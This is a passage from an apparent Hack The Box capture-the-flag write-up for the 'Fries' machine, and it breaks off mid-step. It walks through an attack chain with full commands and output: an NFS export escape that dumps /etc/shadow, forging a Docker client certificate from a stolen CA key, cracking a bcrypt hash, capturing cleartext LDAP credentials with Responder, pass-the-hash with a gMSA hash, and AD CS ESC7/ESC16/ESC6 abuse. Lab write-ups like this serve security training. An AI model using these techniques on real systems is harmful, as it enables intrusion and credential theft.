pollinate:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                            
sshd:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
syslog:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                               
uuidd:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                
tcpdump:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                              
tss:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                  
landscape:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                            
fwupd-refresh:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                        
usbmux:*:19589:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                               
svc:$y$j9T$Y7j3MSqEJTcNTqSSVJRS2.$h0AFlCXKB9V0PZ.BIyZKSGR6WFJWlxIRiqK.JLOB4PD:20238:0:99999:7:::                                                                                                                                                                                                                                                                                                                                          
lxd:!:19589::::::                                                                                                                                                                                                                                                                                                                                                                                                                         
_rpc:*:20234:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
statd:*:20234:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                
dnsmasq:*:20234:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                              
barman:*:20236:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                               
sssd:*:20238:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                                                                                                                                          
NFSv4 overview and auth methods (incomplete)
srv: pseudo
    web.fries.htb: sys
        shared: sys
        certs: sys
        webroot: sys

NFSv4 guessed exports (Linux only, may differ from /etc/exports):
Directory           Auth methods  Export file handle                                        
/srv/web.fries.htb  sys           0100070001000a00000000008a01da16c18a400cbc9b37e3567d3fba  


Trying to guess server OS
OS       Property                                      Fulfilled  
Linux    File Handles start with 0x0100                Yes        
Windows  NFSv3 File handles are 32 bytes long          No         
Windows  Only NFS versions 3 and 4.1 supported         No         
FreeBSD  Mountd reports subnets without mask           Unknown    
NetApp   netapp partner protocol supported             No         
HP-UX    Only one request per TCP connection possible  No         

Final OS guess: Linux
```

The tool revealed an exported directory `/srv/web.fries.htb` and was able to `escape` the export to access the `Root Filesystem`. Most importantly it dumped the contents of `/etc/shadow` which contained a `yescrypt Hash` for the `root` user.

We created a mount point and used `fuse_nfs` to mount the `NFS` share with the ability to use the `--fake-uid` option and access files as `root`.

```shell
┌──(root㉿kali)-[/home/kali]
└─# mkdir /mnt/mount
```

```shell
┌──(root㉿kali)-[/home/kali]
└─# /root/.local/share/pipx/venvs/nfs-security-tooling/bin/fuse_nfs /mnt/mount 172.18.0.1 --fake-uid --allow-write --manual-fh 0100070001000a00000000008a01da16c18a400cbc9b37e3567d3fba
```

Within the mounted file system we found a `certs` directory containing `Docker TLS Certificates`.

```shell
┌──(root㉿kali)-[/mnt/mount]
└─# ls -la
total 0
drwxrwxrwx 2 root 59605603 4096 May 26 20:13 certs
drwxrwxrwx 2 root root     4096 May 31 13:11 shared
drwxr--rwx 5 kali kali     4096 Jun  7 15:30 webroot
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fries/files/certs]
└─$ ls -la
total 24
drwxrwx--- 1 root vboxsf  146 Nov 23 09:01 .
drwxrwx--- 1 root vboxsf   10 Nov 23 09:01 ..
-rwxrwx--- 1 root vboxsf 1708 Nov 23 09:01 ca-key.pem
-rwxrwx--- 1 root vboxsf 1111 Nov 23 09:01 ca.pem
-rwxrwx--- 1 root vboxsf 1115 Nov 23 09:01 server-cert.pem
-rwxrwx--- 1 root vboxsf  940 Nov 23 09:01 server.csr
-rwxrwx--- 1 root vboxsf 1704 Nov 23 09:01 server-key.pem
-rwxrwx--- 1 root vboxsf  205 Nov 23 09:01 server-openssl.cnf
```

We copied the certificates to our working directory.

## Forging Certificate

Using the `CA Certificate` and `Private Key` we forged a new `Client Certificate` for a fictitious `sysadm` user that would allow us to authenticate to the `Docker Daemon`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fries/files/certs]
└─$ openssl genrsa -out sysadm-key.pem 2048
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fries/files/certs]
└─$ openssl req -new -key sysadm-key.pem -out sysadm.csr -subj "/CN=sysadm"
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fries/files/certs]
└─$ openssl x509 -req -in sysadm.csr -CA ca.pem -CAkey ca-key.pem -CAcreateserial -out sysadm-cert.pem -days 3650
Certificate request self-signature ok
subject=CN=sysadm
```

Next we transferred the certificates to the target host.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fries/files/certs]
└─$ scp ca.pem svc@fries.htb:/home/svc/ 
svc@fries.htb's password: 
ca.pem
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fries/files/certs]
└─$ scp sysadmin-key.pem svc@fries.htb:/home/svc/
svc@fries.htb's password: 
sysadm-key.pem
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fries/files/certs]
└─$ scp sysadmin-cert.pem svc@fries.htb:/home/svc/
svc@fries.htb's password: 
sysad-cert.pem
```

With the forged certificates we were able to interact with the `Docker Daemon` on `127.0.0.1` on port `2376/TCP`.

```shell
svc@web:~$ docker --tlsverify --tlscacert=ca.pem --tlscert=sysadm-cert.pem --tlskey=sysadm-key.pem -H tcp://127.0.0.1:2376 ps
CONTAINER ID   IMAGE                   COMMAND                  CREATED        STATUS       PORTS                                                                        NAMES
f427ecaa3bdd   pwm/pwm-webapp:latest   "/app/startup.sh"        5 months ago   Up 9 hours   0.0.0.0:8443->8443/tcp, [::]:8443->8443/tcp                                  pwm
cb46692a4590   dpage/pgadmin4:9.1.0    "/entrypoint.sh"         5 months ago   Up 9 hours   443/tcp, 127.0.0.1:5050->80/tcp                                              pgadmin4
bfe752a26695   fries-web               "/usr/local/bin/pyth…"   5 months ago   Up 9 hours   127.0.0.1:5000->5000/tcp                                                     web
858fdf51af59   postgres:16             "docker-entrypoint.s…"   5 months ago   Up 9 hours   5432/tcp                                                                     postgres
b916aad508e2   gitea/gitea:1.22.6      "/usr/bin/entrypoint…"   5 months ago   Up 9 hours   127.0.0.1:3000->3000/tcp, 172.18.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
```

We extracted the `/config` directory from the `PWM` container which should contain the `configuration files`.

```shell
svc@web:~$ docker --tlsverify --tlscacert=ca.pem --tlscert=sysadm-cert.pem --tlskey=sysadm-key.pem   -H tcp://127.0.0.1:2376 cp f427ecaa3bdd:/config ./config_dump
Successfully copied 19.6MB to /home/svc/config_dump
```

```shell
svc@web:~/config_dump$ ls -la
total 160
drwxr-xr-x 6 svc svc   4096 Nov 12 01:38 .
drwxr-x--- 6 svc svc   4096 Nov 23 15:30 ..
-rw-r--r-- 1 svc svc    149 Nov 23 06:11 applicationPath.lock
drwxr-xr-x 2 svc svc   4096 Nov 12 01:37 backup
drwxr-xr-x 3 svc svc   4096 Jun  1 02:03 LocalDB
drwxr-xr-x 2 svc svc   4096 Nov 23 06:10 logs
-rw-r--r-- 1 svc svc 134122 Nov 12 01:38 PwmConfiguration.xml
drwxr-xr-x 2 svc svc   4096 Jun  1 02:03 temp
```

```shell
svc@web:~/config_dump$ cat PwmConfiguration.xml 
<?xml version="1.0" encoding="UTF-8"?><PwmConfiguration createTime="2025-06-01T02:07:43Z" modifyTime="2025-06-01T19:53:04Z" pwmBuild="b7ed22b" pwmVersion="2.0.8" xmlVersion="5">
    <!--
                This configuration file has been auto-generated by the PWM password self service application.

                WARNING: This configuration file contains sensitive security information, please handle with care!

                WARNING: If a server is currently running using this configuration file, it will be restarted and the
                 configuration updated immediately when it is modified.

                NOTICE: This file is encoded as UTF-8.  Do not save or edit this file with an editor that does not
                        support UTF-8 encoding.

                If unable to edit using the application ConfigurationEditor web UI, the following options are available:
                      1. Edit this file directly by hand.
                      2. Remove restrictions of the configuration by setting the property "configIsEditable" to "true".
                         This will allow access to the ConfigurationEditor web UI without having to authenticate to an
                         LDAP server first.

                If you wish for sensitive values in this configuration file to be stored unencrypted, set the property
                "storePlaintextValues" to "true".
-->
    <properties type="config">
        <property key="configIsEditable">true</property>
        <property key="configEpoch">0</property>
        <property key="configPasswordHash">$2y$04$W1TubX/9JAqpHlxx7xqXpesUMB2bJMV4dH/8pXbcul0NgA6ZexGyG</property>
    </properties>
```

And indeed the `PwmConfiguration.xml` file contained a `Bcrypt Hash` for the `Configuration Password`.

| Hash                                                         |
| ------------------------------------------------------------ |
| $2y$04$W1TubX/9JAqpHlxx7xqXpesUMB2bJMV4dH/8pXbcul0NgA6ZexGyG |

## Cracking the Hash using John the Ripper

We saved the hash to a file and used `John the Ripper` to crack it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ cat hash.hash 
$2y$04$W1TubX/9JAqpHlxx7xqXpesUMB2bJMV4dH/8pXbcul0NgA6ZexGyG
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ sudo john hash.hash --wordlist=/usr/share/wordlists/rockyou.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockon!          (?)     
1g 0:00:00:03 DONE (2025-11-23 09:35) 0.2638g/s 5870p/s 5870c/s 5870C/s tanesha..prakash
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Password |
| -------- |
| rockon!  |

## Accessing the Configuration Manager

With the cracked password we were able to accessed the `PWM Configuration Manager` at `https://172.18.0.1:8443`.




## Man-in-the-Middle Attack

To capture credentials we modified the `LDAP` connection settings in the `PWM Configuration Manager` to point to our attack machine.

```shell
ldap://10.10.16.97:389
```



On our attack machine we started `Responder` to capture the `LDAP` authentication attempt.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.97]
    Responder IPv6             [dead:beef:4::105f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-DL5Q0NU639R]
    Responder Domain Name      [WLF9.LOCAL]
    Responder DCE-RPC Port     [49257]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[!] Error starting TCP server on port 80, check permissions or other servers running.
[!] Error starting SSL server on port 443, check permissions or other servers running.
```

When `PWM` attempted to connect to our `LDAP Server` we captured the `cleartext Credentials` for the `svc_infra` user.

```shell
[LDAP] Cleartext Client   : 10.129.23.91
[LDAP] Cleartext Username : CN=svc_infra,CN=Users,DC=fries,DC=htb
[LDAP] Cleartext Password : m6tneOMAh5p0wQ0d
[*] Skipping previously captured cleartext password for CN=svc_infra,CN=Users,DC=fries,DC=htb
[*] Skipping previously captured cleartext password for CN=svc_infra,CN=Users,DC=fries,DC=htb
[*] Skipping previously captured cleartext password for CN=svc_infra,CN=Users,DC=fries,DC=htb
```

| Username  | Password         |
| --------- | ---------------- |
| svc_infra | m6tneOMAh5p0wQ0d |

### Privilege Escalation to gMSA_CA_prod$

#### Dumping gMSA Hash

With the `svc_infra` credentials we were able to read the `Group Managed Service Account` (`gMSA`) password for `gMSA_CA_prod$` using `NetExec`.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.129.23.91 -u 'svc_infra' -p 'm6tneOMAh5p0wQ0d' --gmsa
LDAP        10.129.23.91    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fries.htb)
LDAPS       10.129.23.91    636    DC01             [+] fries.htb\svc_infra:m6tneOMAh5p0wQ0d 
LDAPS       10.129.23.91    636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.23.91    636    DC01             Account: gMSA_CA_prod$        NTLM: fc20b3d3ec179c5339ca59fbefc18f4a     PrincipalsAllowedToReadPassword: svc_infra
```

| Hash                             |
| -------------------------------- |
| fc20b3d3ec179c5339ca59fbefc18f4a |

Using the `Hash` of `gMSA` via `Pass-the-Hash` (`PtH`) we authenticated to the `Domain Controller` via `WinRM`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.23.91 -u 'gMSA_CA_prod$' -H fc20b3d3ec179c5339ca59fbefc18f4a
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents>
```

## Enumeration (gMSA_CA_prod$)

We enumerated the `Privileges` and `Group Memberships` of the `gMSA_CA_prod$` account which didn't lead to anything useful.

```cmd
*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
fries\gmsa_ca_prod$ S-1-5-21-858338346-3861030516-3975240472-1104


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
FRIES\Domain Computers                      Group            S-1-5-21-858338346-3861030516-3975240472-515 Mandatory group, Enabled by default, Enabled group
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to SYSTEM

We used `NetExec` with the `adcs` module to find `Active Directory Certificate Services` (`AD CS`) running in the environment.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ netexec ldap 10.129.23.91 -u 'svc_infra' -p 'm6tneOMAh5p0wQ0d' -M adcs
LDAP        10.129.23.91    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fries.htb)
LDAP        10.129.23.91    389    DC01             [+] fries.htb\svc_infra:m6tneOMAh5p0wQ0d 
ADCS        10.129.23.91    389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.23.91    389    DC01             Found PKI Enrollment Server: DC01.fries.htb
ADCS        10.129.23.91    389    DC01             Found CN: fries-DC01-CA
```

And of course we added the `Certificate Authority` (`CA`) hostname to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.23.91   fries.htb
10.129.23.91   code.fries.htb
10.129.23.91   dc01.fries.htb
10.129.23.91   pwm.fries.htb
10.129.23.91   db-mgmt05.fries.htb
10.129.23.91   fries-DC01-CA
```

Using `Certipy` we enumerated the `CA` and found vulnerabilities including `ESC7` which indicated the `gMSA_CA_prod$` account had dangerous permissions.

```shell
┌──(kali㉿kali)-[~]
└─$ certipy-ad find -username 'gMSA_CA_prod$@fries.htb' -hashes fc20b3d3ec179c5339ca59fbefc18f4a -dc-ip 10.129.23.91 -vulnerable -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 16 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fries-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fries-DC01-CA'
[*] Checking web enrollment for CA 'fries-DC01-CA' @ 'DC01.fries.htb'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fries-DC01-CA
    DNS Name                            : DC01.fries.htb
    Certificate Subject                 : CN=fries-DC01-CA, DC=fries, DC=htb
    Certificate Serial Number           : 26117C1FFA5705AF443B7E82E8C639A9
    Certificate Validity Start          : 2025-11-18 05:39:18+00:00
    Certificate Validity End            : 3024-05-19 14:11:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : FRIES.HTB\Administrators
      Access Rights
        ManageCa                        : FRIES.HTB\gMSA_CA_prod
                                          FRIES.HTB\Domain Admins
                                          FRIES.HTB\Enterprise Admins
                                          FRIES.HTB\Administrators
        Enroll                          : FRIES.HTB\gMSA_CA_prod
                                          FRIES.HTB\Domain Users
                                          FRIES.HTB\Domain Computers
                                          FRIES.HTB\Authenticated Users
        ManageCertificates              : FRIES.HTB\Domain Admins
                                          FRIES.HTB\Enterprise Admins
                                          FRIES.HTB\Administrators
    [+] User Enrollable Principals      : FRIES.HTB\Authenticated Users
                                          FRIES.HTB\Domain Users
                                          FRIES.HTB\gMSA_CA_prod
                                          FRIES.HTB\Domain Computers
    [+] User ACL Principals             : FRIES.HTB\gMSA_CA_prod
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates
```

To verify our assumptions we checked the current `EditFlags` value on the `CA`.

```cmd
*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents> certutil -config "DC01.fries.htb\fries-DC01-CA" -getreg policy\EditFlags
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\fries-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags:

  EditFlags REG_DWORD = 11014e (1114446)
    EDITF_REQUESTEXTENSIONLIST -- 2
    EDITF_DISABLEEXTENSIONLIST -- 4
    EDITF_ADDOLDKEYUSAGE -- 8
    EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64)
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)
CertUtil: -getreg command completed successfully.
```

### Time and Date Synchronization

Before proceeding with attacking  `AD CS` we synchronized our system time with the `Domain Controller` to ensure `Kerberos` tickets would be valid.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.23.91
```

### Active Directory Certificate Services (AD CS) Abuse

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#active-directory-certificate-services-ad-cs](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#active-directory-certificate-services-ad-cs)
- [https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

#### Certificate Authority Enumeration (CA)

We gathered information about the `svc_infra`, `gMSA_CA_prod$`, and `Administrator` accounts using `Certipy`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ certipy-ad account -u 'svc_infra@fries.htb' -p 'm6tneOMAh5p0wQ0d' -dc-ip 10.129.23.91 -user 'svc_infra' read    
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'svc_infra':
    cn                                  : svc_infra
    distinguishedName                   : CN=svc_infra,CN=Users,DC=fries,DC=htb
    name                                : svc_infra
    objectSid                           : S-1-5-21-858338346-3861030516-3975240472-3601
    sAMAccountName                      : svc_infra
    userPrincipalName                   : svc_infra@fries.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-05-27T16:01:42+00:00
    whenChanged                         : 2025-11-23T16:38:24+00:00
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ certipy-ad account -u 'svc_infra@fries.htb' -p 'm6tneOMAh5p0wQ0d' -dc-ip 10.129.23.91 -user 'gMSA_CA_prod$' read
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'gMSA_CA_prod$':
    cn                                  : gMSA_CA_prod
    distinguishedName                   : CN=gMSA_CA_prod,CN=Managed Service Accounts,DC=fries,DC=htb
    name                                : gMSA_CA_prod
    objectSid                           : S-1-5-21-858338346-3861030516-3975240472-1104
    sAMAccountName                      : gMSA_CA_prod$
    dNSHostName                         : ca.fries.htb
    userAccountControl                  : 4096
    whenCreated                         : 2025-05-18T15:10:36+00:00
    whenChanged                         : 2025-11-23T15:49:33+00:00
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ certipy-ad account -u 'svc_infra@fries.htb' -p 'm6tneOMAh5p0wQ0d' -dc-ip '10.129.23.91' -user 'Administrator' read
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'Administrator':
    cn                                  : Administrator
    distinguishedName                   : CN=Administrator,CN=Users,DC=fries,DC=htb
    name                                : Administrator
    objectSid                           : S-1-5-21-858338346-3861030516-3975240472-500
    sAMAccountName                      : Administrator
    userAccountControl                  : 66048
    whenCreated                         : 2025-05-18T14:59:25+00:00
    whenChanged                         : 2025-11-13T22:32:53+00:00
```

#### ESC16: Security Extension Disabled on CA (Globally) + ESC6: CA Allows SAN Specification via Request Attributes

To exploit `ESC16` we first disabled the `Security Extension` on the `Certificate Authority` by adding the `OID` `1.3.6.1.4.1.311.25.2` to the `DisableExtensionList`.

- [https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally)

```cmd
*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents> $CA.SetConfigEntry($Config, "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy", "DisableExtensionList", "1.3.6.1.4.1.311.25.2")
```

```cmd
*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents> certutil -config "DC01.fries.htb\fries-DC01-CA" -getreg policy\DisableExtensionList
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\fries-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\DisableExtensionList:

  DisableExtensionList REG_SZ = 1.3.6.1.4.1.311.25.2
CertUtil: -getreg command completed successfully.
```

Then we restarted the `Certificate Service` for the changes to take effect.

```cmd
*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents> Restart-Service CertSvc
```

Running `Certipy` again confirmed that `ESC16` was now detected as vulnerable.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ certipy-ad find -u 'svc_infra@fries.htb' -p 'm6tneOMAh5p0wQ0d' -dc-ip 10.129.11.4 -vulnerable -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 16 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fries-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fries-DC01-CA'
[*] Checking web enrollment for CA 'fries-DC01-CA' @ 'DC01.fries.htb'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fries-DC01-CA
    DNS Name                            : DC01.fries.htb
    Certificate Subject                 : CN=fries-DC01-CA, DC=fries, DC=htb
    Certificate Serial Number           : 26117C1FFA5705AF443B7E82E8C639A9
    Certificate Validity Start          : 2025-11-18 05:39:18+00:00
    Certificate Validity End            : 3024-05-19 14:11:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FRIES.HTB\Administrators
      Access Rights
        ManageCa                        : FRIES.HTB\gMSA_CA_prod
                                          FRIES.HTB\Domain Admins
                                          FRIES.HTB\Enterprise Admins
                                          FRIES.HTB\Administrators
        Enroll                          : FRIES.HTB\gMSA_CA_prod
                                          FRIES.HTB\Domain Users
                                          FRIES.HTB\Domain Computers
                                          FRIES.HTB\Authenticated Users
        ManageCertificates              : FRIES.HTB\Domain Admins
                                          FRIES.HTB\Enterprise Admins
                                          FRIES.HTB\Administrators
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

Next we enabled `ESC6` by modifying the `EditFlags` to allow `EDITF_ATTRIBUTESUBJECTALTNAME2` which permits specifying `Subject Alternative Names (SAN)` in certificate requests.

```cmd
